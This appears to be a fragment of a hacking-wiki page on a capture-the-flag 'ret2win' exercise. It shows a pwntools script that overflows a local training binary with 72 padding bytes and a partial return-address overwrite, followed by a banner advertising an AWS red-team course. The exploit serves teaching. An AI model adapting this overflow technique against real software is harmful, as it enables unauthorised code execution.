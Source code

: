 <figure><img src="../../../.gitbook/assets/image (1210).png" alt="" width="563"><figcaption></figcaption></figure>

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
